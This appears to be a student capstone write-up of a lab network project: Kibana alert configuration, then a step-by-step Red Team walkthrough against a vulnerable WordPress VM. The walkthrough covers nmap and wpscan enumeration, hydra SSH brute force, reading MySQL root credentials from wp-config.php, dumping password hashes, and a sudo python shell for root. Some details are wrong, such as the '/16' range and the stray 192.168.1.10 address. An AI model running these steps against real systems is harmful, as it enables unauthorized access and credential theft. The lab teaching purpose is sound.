## Executive Summary

- This project is about a **Network** consisting of two servers, a penetration testing Kali VM and an ELK stack server. In addition there is also a capstone machine that is used to test for alerts. The Network architechture is presented below:



- Initially, **Blue Team Defenses** are configured in **Kibana** to generate alerts in the setting of an attack, while analyzing 'beats' (filebeat, packetbeat, metricbeat) received from an ELK Stack server

- The two servers (Target 1, Target 2) are vulnerable and a **Red Team Penetration Testing** with Kali VM is performed to attack these two targets using the principles of engagement 
    - Information gathering
    - Scanning and enumeration
    - Exploitation
    - Post-Exploitation
    - Reporting

- While the Red Team Peneteration Attacks are in operation, the **Kibana software is monitored** in live stream to test the efficacy of Blue Team Defenses in setting off appropriate alarms

- With all the new information about system wulnerabilities, a final **Purple Team Hardening** is performed against the vulnerabilities discovered during the Red Team penetration testing and the weaknesses identified in the Blue Team Defenses

## Blue Team Defenses

- The network is configured behind a jumb-box and a firewall in defense against the external traffic

- All alerts are configured using the Kibana Software in ELK Stack `192.168.1.100:5601`

- Three alerts were configured to alert SOC Analysts to detect suspicious activity conerning for a potential attack, which are then tested during the red team penetration testing phase. To prevent false positives and negatives I have chosen a threshold to be above 400 in the past 5 minutes

1. Configuring alert for alarm when there are an abnormally high number of HTTP errors, as can be the case in the setting of brute force attacks when the hackers may attempt to crack logins. Note that the indices to query here is defined as `packetbeat` as thats where the http data comes from by default in ELK stack



2. Configuring an alert for an alarm when an abnormally high number of bytes have occurred as this can indicate an event of unusual data transfer in the mist of an attack. ote that the indices to query here is defined as `packetbeat` as thats where the http data comes from by default in ELK stack

 

3. Configuring an alert for alarm when CPU usage spikes to greater than 50%, such unusual heavy usage can be a marker of an attack and warrants investigation / mitigation. Note that the indices to query here is defined as `metricbeat` as thats where the CPU data comes from by default in ELK stack

 

- Below is the summary page of all three alerts

 

- Once the alerts have been configured. An index pattern is then defined to "watcher_history", this is in essence a standardized format in which the discover queries will present results

 
 

- Then finally, specifying the index pattern of "watcher_history" in discover

 

## Red Team Penetration Testing - Using Kali VM

### `1) Information Gathering`

- `ifconfig` to reveal the Kali VM Ip address and the Network range. This informs us that the Kali VM IP address is: `192.168.1.90`. We also learn about the network ranges as the netmask is 255.255.255.0 which means that only the last 8 bits are variable for the range of IP addresses and using the broadcast (the last IP) of `192.168.1.255` we can deduce the range to be `192.168.1.255/16`

 

- `netdiscover -r 192.168.1.255/16` reveals the additional IP addresses in the network such as
    - **Target 1:** `192.168.1.110`
    - **Target 2:** `192.168.1.115`
    - **ELK Stack:** `192.168.1.100` This we already know from when we configured alerts in Kibana
    - **Capstone:** `192.168.1.105` We can confirm that this is capstone by checking hyper V or accessing the terminal in Capstone and using ifconfig
    - **Gateway:** `192.168.1.1` This is usually a default IP for gateways/routers

- This information was used to create the network diagram above

 

### `2) Scanning and Enumeration`

Getting information about open ports using nmap for all hosts in the range of IP addresses of the targets

- `nmap -sV 192.168.1.110-115` Note that the range 110-115 is specified, this contains Target 1, Target 2 and ELK stack - so that the scan is completed faster

 

- The results are similar for both target 1 and target 2. The OS version Apache:

- Both have open ports 80 and 22 which can be exploited

- Both are running Apache 2.4.10 httpd on the http port and Samba smbd 3 on ports 139 and 445

- Finding out the File directory structure, open ports and IP addresses

- `nmap  -sS -A 192.168.1.110`

- Using `wpscan` can help provide information regarding potential users and vulnerabiliteis in wordpress

- `wpscan --url http://192.168.1.110/wordpress -eu` This will reveal the users

 
 

### `3) Exploitation Phase I - Hacking Target 1 VM`

- As we know that the ssh ports are open so we can SSH to Michael's account

- `ssh michael@192.168.1.10` reveals that it requires a password. We can use hydra to brute force it an then SSH again

- `hydra -l michael -P /usr/share/john/password.lst  192.168.1.110 ssh`

- `ssh michael@192.168.1.10`

 

- After log in some basic commands can be run for navigation

- `ifconfig`, or `ls`, `pwd` if there is shell 

- At this point you can also search for the files containing the name flag `find -name flag2.txt 2>dev/null` (the `2>dev/null` instructs to not show erros of permission denied) or `find -type f -iname ‘flag*’`

 

This informs me that there is a second flag in the directory `var/www/html`. Even if you do not use find, you can manually explore local directories by hit and trial. The flags usually are like "destination" points leading you towrds the final goal. So obviously, this flag's location shortlists where to look for it further. 

 

> Accessing the MYSQL database using the root user

- Note that `/var/www/html` is the default root folder of a web server and if you want to access confidential files holding credentials for the MySQL server. This default folder is configured in `apache.config` file

- wp-config.php is one of the core files in teh wordpress folder that contains information about the databases, such as root user access username and password

- Or go directly into the wordpress folder: `cd /var/www/html/wordpress | cat wp-config.php`

- This reveals the password for root access to the mysql database

- `mysql -u root -p` to log in to mysql and typing the password

- After gaining access into the MYSQL server further information can be gathered by typing the following commands

- `show databases`
- `use wordpress`
- `show tables`
- `select * from wp_posts`
- `select * from wp_users`

- With the new information gathered, the hashes of the usernames can be accessed and copied into a text file for use by `John the Ripper`

- `nano michael-steven_hashes.txt`

- Once the passwords have been hacked. I can now login as Steven via SSH 

- `ssh steven@192.168.1.110`

- Then you can attempt to acquire root access with `sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’` and find flag 4